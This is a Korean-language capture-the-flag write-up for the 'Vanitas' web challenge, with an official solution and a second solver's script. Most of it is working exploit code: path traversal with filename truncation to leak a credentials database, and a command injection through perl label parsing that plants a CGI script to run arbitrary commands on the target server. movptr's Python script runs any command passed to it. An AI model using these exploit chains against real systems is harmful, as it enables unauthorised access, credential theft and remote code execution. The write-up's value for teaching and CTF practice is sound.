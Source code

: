 # Web1 - Vanitas

### 공식 Writeup
locale에 맞는 html 파일을 가져올 때 snprintf를 사용하여 글자 수를 잘 맞추면 뒤의 .html을 truncate시키는 것이 가능. 이를 이용해 .db를 leak하여 아이디 및 비밀번호를 획득. (Ref. CVE-2018-13379)

```c
char *locale = strdup(request->path + 1); locale[strlen(request->path) - 5] = '\0'; snprintf(filepath, 0x100, "html/auth/%s.html", locale);
```

```sh
$ curl http://52.78.31.14/////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////../../.db/auth --path-as-is --output .db 

$ sqlite3 .db 
SQLite version 3.37.2 2022-01-06 13:25:41 Enter ".help" for usage hints. 
sqlite> select * from users; 
vanitas_vanitatum_791e45a8|et_omnia_vanitas_8ec1ac9e
```

diagnosis 쪽에서 command injection이 있지만 filter로 인해 직접적인 RCE가 어려운 상황

```c
char command[0x100];  
host = get_http_request_header(request, "X-Target"); 
check_command(fd, host); 
snprintf(command, 0x100, "ping %s", host);
```

간단한 python/perl cgi 기능이 존재함

```c
if (endswith(cgi_path, ".py")) {    
	snprintf(command, 0x100, "/usr/bin/python3 %s", cgi_path);
} else if (endswith(cgi_path, ".pl")) {     
	snprintf(command, 0x100, "/usr/bin/perl %s", cgi_path); 
} else {     
	send_http_response_404(fd);     
	exit(EXIT_SUCCESS);
}
```

python에서는 불가능하지만 perl에서는 ":" 문자가 goto label로 인식된다는 점을 이용하면 이러한 것이 가능함. (Ref. CVE-2019-11539)

```sh
ubuntu@ip-10-0-13-168:~$ ping "print 123#" 2>&1 
ping: print 123#: Name or service not known

ubuntu@ip-10-0-13-168:~$ ping "print 123#" 2>&1 | perl 
123
```

command injection filter에 ">" 문자는 막혀있지 않기 때문에 이를 이용해 cgi-bin에 펄 스크립트를 작성 후 실행
X-target의 \는 이스케이핑이고 `\t` 에서 `\`를 이스케이핑 하기 위해서 두 번 이스케이핑 한 것
`flag_645b0ab1d0f09363d9cf86ea7dd85a34` 가 실제 플래그 이름

```python
import requests

TARGET = 'http://52.78.31.14'
response = requests.get(TARGET + '/en/diagnosis', headers = {
    'Cookie' : 'auth=vanitas_vanitatum_791e45a8|et_omnia_vanitas_8ec1ac9e',
    'X-Target' : '\\$x=\\"cat\\\\t/flag_645b0ab1d0f09363d9cf86ea7dd85a34\\",system\\$x# 2> cgi-bin/asdfasdjklfjklas.pl',
})
print(response.status_code)

response = requests.get(TARGET + '/cgi-bin/asdfasdjklfjklas.pl')
print(response.text)
```


### movptr Writeup

```python
#!/usr/bin/env python3

from socket import socket, AF_INET, SOCK_STREAM

import sqlite3

import uuid
import sys

RHOST = "52.78.31.14"
RPORT = 80
CMD = sys.argv[1]

database = "/home/user/.db"

path = b""
path += b"../../../../"
path += database.encode()
path += b"/auth"

path = b"/" + (250 - len(path)) * b"/" + path

buf = b""
buf += b"GET " + path + b" HTTP/1.1\r\n"
buf += b"Accept: */*\r\n"
buf += b"\r\n"

soc = socket(AF_INET, SOCK_STREAM)
soc.connect((RHOST, RPORT))

soc.send(buf)
res = soc.recv(65535)
soc.close()

start = res.index(b"\r\n\r\n")
res = res[start + 4:]

with open(".db", "wb") as f:
    f.write(res)

con = sqlite3.connect(".db")
cur = con.cursor()
cur.execute('SELECT * FROM users')
user_id, user_pw = cur.fetchone()

user_id = user_id.encode()
user_pw = user_pw.encode()

tmp = (uuid.uuid4().hex + ".pl").encode()

buf = b""
buf += b"GET /diagnosis HTTP/1.1\r\n"
buf += b"X-Target: 'exec \"" + CMD.encode() + b"\" #' 2>/tmp/" + tmp + b" \r\n"
buf += b"Cookie: auth=" + user_id + b"|" + user_pw + b"\r\n"
buf += b"Accept: */*\r\n"
buf += b"\r\n"

soc = socket(AF_INET, SOCK_STREAM)
soc.connect((RHOST, RPORT))

soc.send(buf)
res = soc.recv(65535)
soc.close()

path = b"/cgi-bin/"
path += b"../../../tmp/" + tmp

buf = b""
buf += b"GET " + path + b" HTTP/1.1\r\n"
buf += b"Accept: */*\r\n"
buf += b"\r\n"

soc = socket(AF_INET, SOCK_STREAM)
soc.connect((RHOST, RPORT))

soc.send(buf)
res = soc.recv(65535)
soc.close()

start = res.index(b"\r\n\r\n")
res = res[start + 4:]

print(res.decode())
```